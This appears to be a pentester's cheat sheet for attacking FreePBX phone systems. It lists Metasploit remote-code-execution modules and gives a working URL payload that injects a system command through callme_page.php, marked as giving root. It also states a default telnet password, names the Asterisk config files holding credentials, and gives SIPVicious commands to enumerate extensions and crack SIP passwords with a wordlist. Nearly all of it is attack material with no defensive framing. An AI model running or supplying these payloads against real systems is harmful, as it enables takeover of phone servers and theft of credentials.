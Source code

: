 # FreePBX application vuln

## Exploits

### Metasploit
```
  Name                                     Disclosure Date  Rank       Check  Description

-  ----                                     ---------------  ----       -----  -----------
   0  exploit/unix/http/freepbx_callmenum      2012-03-20       manual     No     FreePBX 2.10.0 / 2.9.0 callmenum Remote Code Execution
   1  exploit/unix/webapp/freepbx_config_exec  2014-03-21       excellent  Yes    FreePBX config.php Remote Code Execution
```

### RCE

```
/recordings/misc/callme_page.php?action=c&callmenum=2001@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20{cmd}%0D%0A%0D%0A
```
=> Give root access

### Config files

default cred telnet : admin
                      amp1111


/etc/asterisk/voicemail.conf
/etc/asterisk/manager.conf

### Tools

#### Metasploit

#####  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/unix/http/freepbx_callmenum      2012-03-20       manual     No     FreePBX 2.10.0 / 2.9.0 callmenum Remote Code Execution
   1  exploit/unix/webapp/freepbx_config_exec  2014-03-21       excellent  Yes    FreePBX config.php Remote Code Execution

#### SIPVICIOUS
```bash
sudo svmap host

svwar -e100-999 host

sudo svcrack -u2000 -d /usr/share/wordlists/rockyou.txt host
```

### SQLMAP

